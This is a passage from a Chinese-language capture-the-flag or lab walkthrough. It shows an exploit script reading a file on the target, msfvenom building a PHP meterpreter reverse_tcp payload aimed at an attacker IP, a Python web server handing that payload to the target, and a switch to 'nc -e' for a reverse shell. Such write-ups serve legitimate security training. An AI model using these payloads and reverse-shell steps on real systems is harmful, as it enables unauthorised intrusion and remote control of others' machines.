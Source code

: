 运行效果如下：

``` bash
python <exp>.py
cmd=cat /home/jim/test.sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   957    0   919  100    38   149k   6333 --:--:-- --:--:-- --:--:--  155k
#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."


```

# Shell BACK

进行一波探测和弹出shell的尝试

非常熟练的生成shell 尝试传递

 ``` bash
┌──(kali㉿Esonhugh)-[~]
└─$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.31.141 LPORT=4444 -f raw -o ./shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1115 bytes
Saved as: ./shell.php

┌──(kali㉿Esonhugh)-[~]
└─$ python -m http.server
python3 is default python version in python command which created by alias

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.31.241 - - [16/Jan/2021 18:31:34] "GET /shell.php HTTP/1.1" 200 -


 ```

这方法直接暴毙 别想了 搞不出来这个meterpreter shell的

## 返回shell

这里直接用 nc -e解决问题

(nc -e 对对方机子的netcat版本有一定要求的 注意!!)

